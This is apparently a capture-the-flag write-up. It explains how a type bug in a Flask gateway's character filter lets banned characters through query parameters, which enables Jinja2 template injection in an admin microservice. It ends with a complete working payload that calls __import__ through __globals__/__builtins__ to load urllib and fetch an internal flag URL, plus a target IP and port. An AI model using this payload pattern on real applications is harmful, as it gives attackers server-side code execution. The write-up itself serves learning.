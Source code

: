 # Microservices Revenge

This one's kinda funny

So there's this guy who has a bunch of microservices (docker containers), 4 this time, `gateway`, `home_page`, `admin_page`, and `flag_page`

`gateway` now has a few banned chars but will now also send the cookies over

`home_page` lets you put any html into the page, but its kinda useless

`admin_page` is even shorter now, but crucially it passes unsanitised data from cookies into `render_template_string`

`flag_page` has the flag but will only show it if you access this endpoint `/flag` which is not accessible with `gateway`

the banned characters mostly prevent template string shenanigans, so its a bit sus

but theres an error

in the `is_sus` function, the filter, its typed like this
```py
def is_sus(microservice: str, cookies: dict) -> bool
```
but is called like this
```py
if is_sus(request.args.to_dict(), request.cookies.to_dict()):
```

notice the first arg is decidedly not a `str`

so basically the filter works for cookies but not for query parameters

so we set `?code=_` (`_` is banned) and we can then access it from the cookie with `{% set us = request.args.code %}`

then we just use `urllib` to get the flag

in conclusion:
1. set cookie `user` to `
{% set us = request.args.code %} {% set urllib = request.application[us+us+"globals"+us+us][us+us+"builtins"+us+us][us+us+"import"+us+us]("urllib") %} {% set fp = urllib.request.urlopen("http://rflagpage/flag") %} {{ fp.read().decode() }} `
2. access the url `34.124.157.94:5005/?service=adminpage&code=_`

enjoy flag

:)